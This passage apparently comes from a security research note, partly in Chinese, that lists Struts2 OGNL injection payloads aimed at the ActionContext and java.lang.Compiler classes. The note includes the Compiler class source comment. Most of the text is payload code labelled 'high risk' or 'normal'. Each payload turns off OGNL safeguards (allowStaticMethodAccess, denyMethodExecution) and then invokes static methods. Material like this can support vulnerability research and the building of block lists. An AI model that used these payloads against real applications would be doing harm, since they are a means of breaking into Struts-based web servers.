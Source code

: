 

### 4 = "com.opensymphony.xwork.ActionContext"
* strut2 框架的包
* src-code  
  [Jump to ActionContext](./assets/ActionContext.java)
* payload
  ```js
  // high risk
  %{@com.opensymphony.xwork.ActionContext@getContext()}

  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new com.opensymphony.xwork.ActionContext()}
  ```


### 5 = "java.lang.Compiler"
* src-code 里啥也没有。以下是源码注释  
  [Jump to java.lang.Compiler](assets/Compiler.java)
  ```java
  // don't make instances
  /**
  * The {@code Compiler} class is provided to support Java-to-native-code
  * compilers and related services. By design, the {@code Compiler} class does
  * nothing; it serves as a placeholder for a JIT compiler implementation.
  * If no compiler is available, these methods do nothing.
  *
  * @deprecated JIT compilers and their technologies vary too widely to
  * be controlled effectively by a standardized interface. As such, many
  * JIT compiler implementations ignore this interface, and are instead
  * controllable by implementation-specific mechanisms such as command-line
  * options. This class is subject to removal in a future version of Java SE.
  *
  * @author  Frank Yellin
  * @since   1.0
  */
  ```
* payload
  ```js
  // normal
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    @java.lang.Compiler}
  
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    @java.lang.Compiler@command()}
  
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    @java.lang.Compiler@compileClass()}
  
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    @java.lang.Compiler@disable()}

  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    @java.lang.Compiler@compileClasses()}

  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    @java.lang.Compiler@enable()}
  ```